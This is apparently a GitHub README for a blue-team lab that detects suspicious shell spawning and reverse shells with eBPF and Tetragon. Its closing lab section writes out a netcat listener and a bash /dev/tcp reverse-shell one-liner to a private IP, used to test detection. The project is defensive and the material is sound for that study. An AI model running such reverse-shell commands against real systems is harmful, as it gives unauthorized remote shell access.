

# 🛰️ Sentinel Trace (v1.0 — Genesis)

> **"Signals are cheap. Decisions are earned."** > *Behavioral Detection Lab powered by eBPF & Tetragon.*

---

## 🌐 Overview
**Sentinel Trace** is a Blue Team-focused security lab dedicated to **behavioral detection** using low-level system signals. 

While most security tools focus on signatures (what a file *looks* like), Sentinel Trace focuses on **contextual reasoning** (what a process *does*). It observes, contextualizes, and explains suspicious behaviors at the kernel level without modifying applications.

### 🧭 Roadmap
- [x] v1.0 Genesis: Single-signal detection & Manual reasoning.
- [ ] v2.0 Correlation: Multi-signal (Process + Network) correlation (Work in Progress).
- [ ] v2.5 MITRE Mapping: Direct mapping to ATT&CK techniques (Work in Progress).
- [ ] v3.0 Sovereign Bridge: Automated enforcement via Sovereign Shield (Work in Progress).

### Operating Systems
- v1.0: Kali Linux & Debian Linux
- v2.0: Kali Linux, Debian Linux & Metasploitable3

## 🧠 Detection Philosophy: "Reasoning-First"
We move away from noisy, signal-only alerts to focus on **explainable security**:
- ✅ **Context over Isolation:** A shell is not a threat; a shell spawned by `nginx` is.
- ✅ **Kernel-Level Truth:** Using eBPF for tamper-proof telemetry.
- ✅ **Zero Instrumentation:** Security visibility with zero impact on application code.
- ✅ **Evidence-Based:** Every alert must be backed by a clear parent/child process lineage.


---

## 🏗️ Architecture & Integration
Sentinel Trace acts as the **Thinking Brain**, designed to feed high-confidence decisions into the **Sovereign Shield** (the Enforcement Plane).



### 🧪 MVP (Minimum Viable Product) Scenario: Suspicious Shell Spawning (***The Question: Why is a public-facing HTTP service spawning a shell?***)

🔎 Observed Signals
- Event: ``process_exec``
- Parent: ``/usr/sbin/nginx``
- Child: ``/bin/sh``
- Context: UID: 33 (www-data) | Namespace: Runtime

🧠 Sentinel Decision
Status: ❌ SUSPICIOUS Reasoning: An HTTP service (Nginx) has no operational justification to spawn an interactive shell. This pattern is synonymous with Remote Code Execution (RCE) or Web Shell exploitation.

🚀 Quick Start (Standalone Mode)
1. Verify Kernel Support
```
sudo bpftool feature probe kernel | grep "eBPF"
```

3. Install Tetragon Daemon
```
curl -fL -o tetragon.tar.gz [https://github.com/cilium/tetragon/releases/download/v1.6.0/tetragon-v1.6.0-amd64.tar.gz](https://github.com/cilium/tetragon/releases/download/v1.6.0/tetragon-v1.6.0-amd64.tar.gz)
tar -xzf tetragon.tar.gz && cd tetragon-v1.6.0-amd64
sudo ./install.sh
sudo systemctl enable --now tetragon
```

5. Observe the Stream

```
sudo tetra getevents
```

### ⚙️ System Validation
#### ⚙️ Engine & Service Configuration


#### 🛡️ TracingPolicy Injection & Kernel Validation


#### 🛡️ TracingPolicy Deployment


#### 🚨 High-Fidelity Detection Log (The Proof)


## Tips:
***How to check logs***
```
# To follow real-time alerts for the Nginx user:
sudo tetra getevents --output json | jq -ce 'select(.process_exec.process.uid == 33)'
```


## ⚙️ System Integration & Persistence
### Scalable Security Model

---
To transform a **manual laboratory** into a **production-ready security solution**, **Sentinel Trace** applies **Infrastructure as Code (IaC)** principles through two tightly coupled core components.

To ensure continuous runtime monitoring, **Sentinel Trace** is deployed as a `systemd` service. This configuration guarantees that the eBPF hooks are re-attached automatically upon system reboot and provides resilience against service termination.

The service is configured to automatically load all policies located in `/etc/tetragon/tracingpolicies/`. This creates an **evolvable security system**: to update the protection or add new detection rules, you simply drop a new `.yaml` file into the directory. The kernel hooks are updated without any service interruption or application downtime.

---

### 🧩 Core Architecture Further View

```text
┌──────────────────────────┐
│ install.sh               │  → Deployment Engine (IaC)
│ ├─ Directory bootstrap   │
│ ├─ Policy injection      │
│ └─ systemd enablement    │
└────────────┬─────────────┘
             ↓
┌──────────────────────────┐
│ tetragon.service         │  → Persistence Layer
│ ├─ Boot-time protection  │
│ ├─ Auto-restart          │
│ └─ Hot policy loading    │
└──────────────────────────┘
```

# 🛰️ Sentinel Trace v2.0 — Correlation: Multi-signal (Work in Progress)
**Status: In Development (feature/v2-correlation branch)**

## 🛰️ Sentinel Trace v2.0 — Correlation & Context: Exploring Reverse Shell (Work in Progress)

**The Goal:** Moving from isolated signals to **behavioral chains**. 
Instead of just seeing a process, we link it to network activity and MITRE ATT&CK techniques.

### 🔭 New Capabilities
- **Network Observability:** Monitoring TCP/UDP connections in real-time via Tetragon.
- **Signal Correlation:** Linking a `process_exec` (Shell) to a `socket_connect` (Reverse Shell).
- **Multi-Node Lab:**
  - 🛡️ **Debian 12** (Target): Protected by Sentinel Trace.
  - 🛡️ **Metasploitable3** (Vulnerable Target): Expanded monitoring.
  - 💀 **Kali Linux** (Attacker): Simulation of RCE and Privilege Escalation.

### 🛡️ Planned Scenario: The Reverse Shell Chain
Sentinel Trace v2.0 will detect the following sequence as a single high-priority alert:
1. `Nginx` (UID 33) spawns `/bin/sh` (**Process Signal**)
2. `/bin/sh` initiates an outbound connection to a non-standard port 4444 (**Network Signal**)
3. **Reasoning:** Unauthorized Outbound Shell (MITRE T1059.004).

### 🛠️ Infrastructure Evolution
- Integration of **Grafana Loki** or **ELK** to centralize and visualize eBPF signals.
- First automated enforcement rules (**Sigkill** on confirmed C2 connections).


# 🧪 Tetragon Standalone — RCE Correlation Lab (Genesis)

## 🛠️ Step-by-Step Lab Setup

---

## 1️⃣ Attacker (Kali) Side 


Listener receiving incoming connection from the target

```bash
# Start a Netcat listener on port 4444
nc -lvnp 4444
```

---

## 2️⃣ Target (Debian) Side


Activation of the correlation policy and launch of real-time monitoring with Identity ("organization","Tetragon","cilium ebpf security tool").

```bash
# 1. Add the network observability policy
sudo tetra tracingpolicy add policies/v2-correlation/03-network-observability.yaml

# 2. Start the correlation monitor (Filtering for www-data activity)
sudo tetra getevents --output json | jq -ce '
  select(.process_kprobe.process.uid == 33 or .process_exec.process.uid == 33)
'
```

---

## 3️⃣ The Attack (Exploit Simulation)


Simulation of reverse shell activation as a web user.

```bash
# Execute the reverse shell payload
sudo -u www-data bash -c "bash -i >& /dev/tcp/192.168.19.144/4444 0>&1"
```

---


👤 Author
O’djuma Badolo Cybersecurity • Cloud • DevSecOps --
